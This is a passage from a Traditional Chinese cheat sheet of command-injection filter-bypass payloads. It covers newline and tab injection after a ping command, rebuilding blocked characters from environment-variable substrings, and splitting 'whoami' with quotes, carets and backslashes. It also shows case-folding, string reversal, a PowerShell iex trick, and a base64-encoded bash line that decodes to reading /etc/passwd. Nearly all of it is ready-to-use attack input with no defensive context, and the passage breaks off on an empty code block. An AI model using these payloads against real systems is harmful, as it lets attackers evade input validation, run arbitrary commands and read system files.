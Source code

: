 - tab
```
ping 127.0.0.1%0a%09
```
- $IFS
```
ping 127.0.0.1%0a${IFS}
```
## 字元過濾繞過
* Bypass `/` -- Linux
```bash
echo ${PATH:0:1}
```
- Bypass `;` -- Linux
```bash
echo ${LS_COLORS:10:1}
```
- Bypass `\` -- cmd
```bash
echo %HOMEPATH:~6,-11%
```
- Bypass `\` -- powershell
```powershell
$env:HOMEPATH[0]
```
## 指令過濾繞過
* Linux  and Windows 
```
w'h'o'am'i
w"h"o"am"i
```
- Windows
```cmd
who^ami
```
- Linux
```bash
who$@ami
w\ho\am\i
```
## 進階混淆指令
- 透過指令把大小寫修正
```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
``` bash
ping 127.0.0.1%0a$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
```bash
$(a="WhOaMi";printf %s "${a,,}")
```
- 透過反轉指令 -- linux
```bash
$(rev<<<'imaohw')
```
* 透過反轉指令 -- windows powershell 
```powershell
iex "$('imaohw'[-1..-20] -join '')"
```
* 透過base64 -- linux
```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
- 透過base64 -- windows powershell 
```powershell
```